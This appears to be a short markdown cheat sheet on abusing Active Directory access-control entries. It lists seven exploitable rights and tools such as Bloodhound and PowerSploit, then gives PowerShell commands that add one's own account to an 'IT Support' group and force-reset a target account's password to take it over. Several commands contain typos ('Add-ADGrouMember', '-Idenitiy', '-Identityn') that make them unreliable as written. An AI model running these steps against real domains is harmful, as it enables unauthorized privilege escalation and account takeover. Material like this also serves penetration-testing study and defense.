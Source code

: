 # Exploitable ACEs

## Tools: Bloodhound, AD-RSAT cmdlets, Powersploit

### 1) ForceChangePassword

### 2) AddMembers

### 3) GenericAll

### 4) GenericWrite

### 5) WriteOwner

### 6) WriteDACL

### 7) AllExtendedRights

## Examples:

### AddMember (AD-RSAT)

#### 1) 

    Add-ADGrouMember "IT Support" -Members "MY.AD.ACCOUNT.USERNAME"

#### 2) 

    Get-ADGroupMember -Identity "IT Support"

### ForceChangePassword (AD-RSAT)

#### 3) 

    Get-ADGroupMember -Idenitiy "Tier 2 Admins"

#### 4) 

    $Password = ConvertTo-SecureString "PASSWORD" -AsPlaintext -Force

#### 5) 

    Set-ADAccountPassword -Identityn"TARGET_AD_ACCOUNT" -Reset -NewPassword $Password

#### 6) Wait for synchronization (10 minutes max) then reconnect OR gpupdate /force then disconnect and reconnect
